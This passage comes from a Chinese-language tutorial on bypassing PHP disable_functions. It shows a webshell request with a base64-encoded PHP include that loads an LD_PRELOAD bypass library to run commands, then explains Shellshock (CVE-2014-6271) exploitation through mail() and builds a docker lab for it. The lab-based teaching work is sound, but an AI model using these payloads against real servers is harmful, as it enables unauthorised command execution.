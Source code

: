 ![image-20220326235102214](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203271036706.png)

这个目录上传失败

去`/var/tmp`上传，成功

![image-20220326235210417](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203271036819.png)

开始利用

然后将bypass_disablefunc.php包含进来并使用GET方法提供所需的三个参数：

```
/?Ginkgo=aW5jbHVkZSgiL3Zhci90bXAvYnlwYXNzX2Rpc2FibGVmdW5jLnBocCIpOw==&cmd=id&outpath=/tmp/outfile123&sopath=/var/tmp/bypass_disablefunc_x64.so
# include("/var/tmp/bypass_disablefunc.php");
```

![image-20220326235302209](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203271036036.png)

##  利用ShellShock(CVE-2014-6271)

### 使用条件：

> Linux 操作系统
>
> `putenv()`、`mail()`或`error_log()`函数可用
>
> 目标系统的`/bin/bash`存在`CVE-2014-6271`漏洞
>
> `/bin/sh -> /bin/bash`sh 默认的 shell 是 bash

### 原理简述

该方法利用的bash中的一个老漏洞，即Bash Shellshock 破壳漏洞（CVE-2014-6271）。

该漏洞的原因是Bash使用的环境变量是通过函数名称来调用的，导致该漏洞出现是以`(){`开头定义的环境变量在命令 ENV 中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。而其核心的原因在于在输入的过滤中没有严格限制边界，也没有做出合法化的参数判断。

一般函数体内的代码不会被执行，但破壳漏洞会错误的将"{}"花括号外的命令进行执行。PHP里的某些函数（例如：mail()、imap_mail()）能调用popen或其他能够派生bash子进程的函数，可以通过这些函数来触发破壳漏洞(CVE-2014-6271)执行命令。

###  演示过程

我们利用 [AntSword-Labs](https://github.com/AntSwordProject/AntSword-Labs)项目来搭建环境：

云服务docker搭建

```
git clone https://github.com/AntSwordProject/AntSword-Labs.git
cd AntSword-Labs/bypass_disable_functions/2
docker-compose up -d
```

搭建完成后访问 `http://your-ip:18080`
